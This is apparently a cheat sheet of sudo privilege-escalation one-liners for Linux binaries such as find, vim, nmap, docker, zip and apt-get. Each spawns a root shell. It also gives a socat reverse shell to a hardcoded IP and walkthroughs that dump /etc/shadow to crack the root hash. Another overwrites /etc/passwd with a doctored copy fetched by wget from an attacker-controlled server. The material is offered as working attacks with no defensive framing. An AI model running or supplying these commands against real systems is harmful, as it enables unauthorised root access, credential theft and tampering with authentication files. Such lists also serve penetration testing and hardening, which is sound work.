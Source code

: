 /usr/bin/ssh

``` bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

find

```
sudo find / etc/passwd -exec /bin/bash \;
```

Nmap

```
echo "os.execute('/bin/bash/')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```

Env

```
sudo env /bin/bash
```

Vim

```
sudo vim -c ':!/bin/bash'
```

Awk

```
sudo awk 'BEGIN {system("/bin/bash")}'
```

Perl

```
sudo perl -e 'exec "/bin/bash";'
```

Python

```
sudo python -c 'import pty;pty.spawn("/bin/bash")'
```

Less

```
sudo less /etc/hosts - !bash
```

Man

```
sudo man man - !bash
```

ftp

```
sudo ftp - ! /bin/bash
```

socat

```
Attacker = socat file:`tty`,raw,echo=0 tcp-listen:1234
Victim = sudo socat exec:'sh -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.105:1234
```

Zip

```
echo test > notes.txt
sudo zip test.zip notes.txt -T --unzip-command="sh -c /bin/bash"
```

gcc

```
sudo gcc -wrapper /bin/bash,-s .
```

Docker

```
sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

MySQL

```
sudo mysql -e '\! /bin/sh'
```

SSH

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

Tmux

```
Sudo tmux
```

pkexec

```
sudo pkexec /bin/bash
```

rlwrap

```
sudo rlwrap /bin/bash
```

xargs

```
sudo xargs -a /dev/null sh
```

anansi_util

```
sudo /home/anansi/bin/anansi_util manual /bin/bash  
```

apt-get

```
sudo apt-get update -o APT::Update::Pre-Invoke::=”/bin/bash -i”
```

flask run

```
echo 'import pty; pty.spawn(“/bin/bash”)' > flask.py
export FLASK_APP=flask.py
sudo /usr/bin/flask run
```

apache2

Victim

```
sudo apache2 -f /etc/shadow
Copy root's hash
```

Attacker

```
echo '<root's_hash>' > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt

// Replace <root's_hash> with the hash that you copied 
```

Back to Victim

```
su root
id && whoami
```

Wget

Victim

```
cp /etc/passwd /tmp/passwd
cat /etc/passwd

```

Attacker

```
Copy /etc/passwd content and put in a local file called passwd
Run python -c "import crypt; print crypt.crypt('NewRootPassword')"
Copy output of the above command 
edit passwd
Replace x in root's line with the copied output
Save the file
python -m SimpleHTTPServer 9000 // You can use any port
```

Victim

```
sudo wget http://<attacker_ip>:9000/passwd -O /etc/passwd
su root // Enter the new root password you generated (Example: NewRootPassword)
id && whoami
```